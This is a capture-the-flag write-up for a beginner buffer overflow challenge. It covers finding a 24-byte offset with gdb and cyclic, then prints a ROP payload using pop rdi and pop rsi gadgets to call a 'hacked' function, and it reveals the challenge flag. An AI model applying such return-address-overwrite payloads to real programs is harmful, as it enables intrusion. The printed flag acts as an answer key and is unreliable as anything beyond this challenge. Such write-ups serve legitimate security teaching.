

# Buffer Overflow

## Description
Can you overflow the buffer to retrieve the flag?
## Solution
The challenge is a simple buffer overflow where we need to overflow the buffer to retrieve the flag.

### Step 1: Analyze the Binary
We start by analyzing the binary using `checksec` to see if there are any protections enabled.

```bash
checksec --file=chall
```
Then we use gdb to find the address of the `hacked` function.



Next, we use the `gdb` to run the program with cyclic and find the offset to the return address.


### Step 2: Find the Offset
We use the `cyclic` command to find the offset to the return address which is 24 bytes.
### Analysis of the Binary
After analyzing the binary, in both disassember and decompiler we can fully understand that we have pop rdi and pop rsi instructions from which we can call the `hacked` function with the right arguments.
### Step 3: Create the Payload
<!-- python2 -c 'print "A" * offset + pop_rdi + parm_1 +pop_rsi_r_15 + parm_2 + junk + hacked '
python2 -c 'print "A" * 24 +"\x42\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x44\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" +  "\x86\x11\x40\x00\x00\x00\x00\x00" ' -->

We create the payload with the offset, pop rdi, pop rsi, and the arguments for the `hacked` function. The payload is as follows:

```python
# python2 -c 'print "A" * offset + pop_rdi + parm_1 + pop_rsi_r_15 + parm_2 + junk + hacked '
python2 -c 'print "A" * 24 + "\x42\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x44\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" +  "\x86\x11\x40\x00\x00\x00\x00\x00" '
```
## Step 4: Run the Exploit
We run the exploit with the payload we created. and then make the script to run it remotely. <a href="exploit.py">exploit.py</a>


### Step 5: Flag. 
RDX{Buff3r_0v3rFl0w_15_345y_1f_y0u_4r3_4w4r3_0f_ghs5543}